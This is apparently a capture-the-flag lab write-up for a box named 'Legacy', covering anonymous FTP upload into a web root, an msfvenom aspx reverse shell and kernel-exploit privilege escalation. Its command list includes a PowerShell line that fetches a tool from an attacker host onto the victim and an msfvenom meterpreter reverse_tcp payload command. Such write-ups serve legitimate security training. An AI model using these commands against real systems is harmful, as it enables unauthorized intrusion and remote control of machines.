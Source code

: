 # Legacy - Writeup

### Ports found 80 (http), 21 (ftp)

This box had a big vulnerability and that was an anonymous login to the ftp coupled with the fact that the ftp root was the same as the web root. 

When logged in to ftp you can find a asp_client directory. By searching why this directory exists you can conclude that the server serves .apsx files. This ftp server also allows anonymous uploads. You can test if a upload is browsale by uploading a txt file and then browsing to it. When this is confirmed you are ready to upload a payload using msfvenom. By browsing the .aspx payload and listning on your attacker machine you can get a low priv shell.

Once connected with the low priv shell, you can run systeminfo and then grab the output and run windows_exploit_suggestor.py. It runs offline. You can also get Sherlock or Watson on the victim and run them as well. These are the low hanging fruit. 

In this case several vulnerabilities where found since no hotfixes were installed this was exploited using kernel exploits. At first the exploits did not work then I actually compiled them by myself and then it worked. 

### Notable Commands
- Downloading a file from lowpriv windows: powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.9:8000/Watson.exe','c:\Users\Public\TEST\Watson.exe')"
- Creating the payload for IIS 7.5 aspx msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=1337 -f aspx > totally_not_a_weird_file.aspx


### Lessons Learned
- If you are planning on using a kernel exploit make sure you compile it by yourself.
- Make sure you try Sherlock, Watson and local windows exploit suggestor (python).

>\>boom_root
